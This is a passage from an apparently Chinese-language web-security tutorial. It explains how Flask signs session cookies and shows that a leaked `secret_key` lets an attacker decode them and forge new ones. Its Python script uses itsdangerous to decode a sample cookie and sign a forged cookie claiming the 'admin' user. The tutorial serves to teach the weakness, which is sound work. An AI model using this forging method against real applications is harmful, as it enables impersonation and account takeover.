 ```py
        # Add a "Vary: Cookie" header if the session was accessed at all.
        if session.accessed:
            response.vary.add('Cookie')

        if not self.should_set_cookie(app, session):
            return

        httponly = self.get_cookie_httponly(app)
        secure = self.get_cookie_secure(app)
        samesite = self.get_cookie_samesite(app)
        expires = self.get_expiration_time(app, session)
        # 将类型为字典的session对象序列化成字符串
        val = self.get_signing_serializer(app).dumps(dict(session))
        # 将最后的内容保存在cookie中
        response.set_cookie(
            app.session_cookie_name,
            val,
            expires=expires,
            httponly=httponly,
            domain=domain,
            path=path,
            secure=secure,
            samesite=samesite
        )
```

在默认情况下，除了`app.secret_key`的值是未知的，其它的参数都是固定好的
- 如果项目使用了session机制，`secret_key`字段是被强制要求设定的，可以通过在配置文件里写入固定字符串或启动时随机生成来获得
- 假如攻击者通过任意文件读取或其它手段拿到了项目的`secret_key`，那么完全有可能 <font color=red> 解密和伪造cookie </font> 来控制用户身份

```py
# 例如如下代码：
from itsdangerous import *
import hashlib
from flask.json.tag import TaggedJSONSerializer
secret_key='f9cb5b2f-b670-4584-aad4-3e0603e011fe'
salt='cookie-session'
serializer=TaggedJSONSerializer()
signer_kwargs=dict(key_derivation='hmac',digest_method=hashlib.sha1)
sign_cookie='eyJ1c2VybmFtZSI6eyIgYiI6IllXUnRhVzQ9In19.XAquJg.AUEZAdrYhYCk3pg4iYy_NIpfpD0'

val = URLSafeTimedSerializer(secret_key, salt=salt,
                                      serializer=serializer,
                                      signer_kwargs=signer_kwargs)
data= val.loads(sign_cookie)
print data                                   
#{u'username': u'test'}

crypt= val.dumps({'username': 'admin'})
print crypt
```

